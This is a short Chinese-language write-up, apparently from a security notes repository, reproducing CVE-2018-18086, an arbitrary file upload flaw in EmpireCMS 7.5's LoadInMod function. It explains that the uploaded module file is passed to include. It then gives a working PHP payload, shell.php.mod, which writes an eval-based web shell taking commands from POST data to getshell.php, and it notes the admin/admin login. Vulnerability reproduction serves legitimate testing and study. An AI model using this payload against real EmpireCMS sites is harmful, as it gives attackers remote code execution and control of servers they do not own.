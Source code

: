 ## 1. 漏洞介绍

EmpireCMS（帝国网站管理系统）是一套内容管理系统（CMS）。 EmpireCMS 7.5版本中的e/class/moddofun.php文件的‘LoadInMod’函数存在安全漏洞。攻击者可利用该漏洞上传任意文件

## 2. 漏洞分析

[【漏洞复现 CVE-2018-18086】EmpireCMS 文件上传 - StarCi - 博客园](https://www.cnblogs.com/starci/p/15190603.html)

## 3. 漏洞复现

虽然对上传的文件进行了重命名但后面的include函数却直接包含了上传的文件，为此我们可以在上传的文件中利用`file_put_contents` 函数实现个写 shell 的操作，后端在include该上传文件时便可导致 `file_put_contents` 执行成功写个shell，示例

shell.php.mod

```php
<?php file_put_contents("getshell.php","<?php @eval(\$_POST[cmd]); ?>");?>
```

登录：admin/admin，……com/e/admin/。

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301108566.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301109467.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301109582.png)
